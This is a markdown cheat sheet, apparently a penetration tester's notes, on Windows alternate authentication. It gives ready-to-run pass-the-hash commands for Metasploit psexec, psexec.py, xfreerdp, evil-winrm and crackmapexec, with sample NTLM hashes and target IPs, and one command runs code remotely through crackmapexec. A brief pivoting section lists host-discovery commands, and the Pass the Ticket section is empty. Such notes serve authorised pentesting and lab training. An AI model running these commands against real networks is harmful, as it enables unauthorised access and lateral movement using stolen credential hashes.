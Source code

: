 
### [WINDOWS ALTERNATE AUTHENTICATION (NTLM and Kerberos)](#)
By alternate authentication material, we refer to any piece of data that can be used to access a Windows account without actually knowing a user's password itself. This is possible because of how some authentication protocols used by Windows networks work.
alternatives available for NTLM and Kerberos auth are as follows.

#### Pass The Hash 
- NOTE - Pass the hash can only be done for NTLM hash, its not possible for NTLMv2 or Net-NTLM
###### PsExec

- Pass The Hash Attack using `PsExec` module of metasploit
    - Get the hash (both NTLM and LM hash required)
        - `hasdump` / `kiwi`/ Mimikatz executable
    - Use module
        - `use exploit/windows/smb/psexec ` > `set LPORT 1234` > `set RHOSTS 10.5.20.134` > `set SMBuser Administrator` > `set SMBPASS aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d` > `exploit`
    - Using python version of PsExec
        - `psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP`

###### RDP

- Get NTLM hash and use it to rdp
    - `xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH`

###### WinRM
- Syntex
    - `evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH`
- example 
    - `evil-winrm -u Administrator -H '37db630168e5f82aafa8461e05c6bbd1' -i 10.200.141.150`

###### crackmapexec
- Pass The Hash using `crackmapexec`
    - Get the hash (only NTLM hash is required)
        - `hasdump` / `kiwi`/ Mimikatz executable
    - Use tool
        - `crackmapexec smb 10.5.20.134 -u Administrator -H e3c61a68f1b89ee6c8ba9507378dc88d`
        - Remote code execution using crackmapexec
            - `crackmapexec smb 10.5.20.134 -u Administrator -H e3c61a68f1b89ee6c8ba9507378dc88d -x "ipconfig"`

#### Pass The Ticket



### [PIVOTING](#)

#### Hosts Discovery

1. ARP cache
    - `arp -a`

2. Hosts file
    - `/etc/hosts`
    - `C:\Windows\System32\drivers\etc\hosts`
